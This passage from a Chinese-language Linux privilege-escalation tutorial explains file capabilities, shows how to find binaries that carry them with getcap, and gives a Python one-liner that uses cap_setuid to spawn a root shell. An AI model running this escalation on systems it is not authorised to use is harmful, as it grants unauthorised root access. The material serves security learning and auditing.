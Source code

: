 ```bash
CAP_SETUID    允许改变进程的 UID
CAP_SYS_ADMIN    允许执行系统管理任务，如加载或卸载文件系统、设置磁盘配额等
CAP_SYS_BOOT    允许重新启动系统
CAP_SYS_CHROOT    允许使用 chroot() 系统调用
CAP_SYS_MODULE    允许插入和删除内核模块
CAP_SYS_NICE    允许提升优先级及设置其他进程的优先级
CAP_SYS_PACCT    允许执行进程的 BSD 式审计
CAP_SYS_PTRACE    允许跟踪任何进程
CAP_SYS_RAWIO    允许直接访问 /devport、/dev/mem、/dev/kmem 及原始块设备
CAP_SYS_RESOURCE    忽略资源限制
CAP_SYS_TIME    允许改变系统时钟
CAP_SYS_TTY_CONFIG    允许配置 TTY 设备
CAP_SYSLOG    允许使用 syslog() 系统调用
CAP_WAKE_ALARM    允许触发一些能唤醒系统的东西(比如 CLOCK_BOOTTIME_ALARM 计时器)
```

设置程序能力的时，有三个选项：

```
inheritable，简称i，表示是否可继承。
permitted，简称p，表示是否允许使用。
effective，简称e，表示特权是否有效。
```

我们可以通过以下指令搜索设置了capabilities的可执行文件

```
getcap -r / 2>/dev/null
```

### B.1 通过cap_setuid

cap_setuid 可以设置当前用户的euid，我们可以通过此选项来进行一些提权。

以python为例

![img](assets/1669289544001-7e945b02-62d3-4027-9edf-1ce58e435a35.png)

我们发现python3.8 有cap_setuid权限，那么我们可以用以下指令进行提权

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![image-20231120233914295](assets/image-20231120233914295.png)
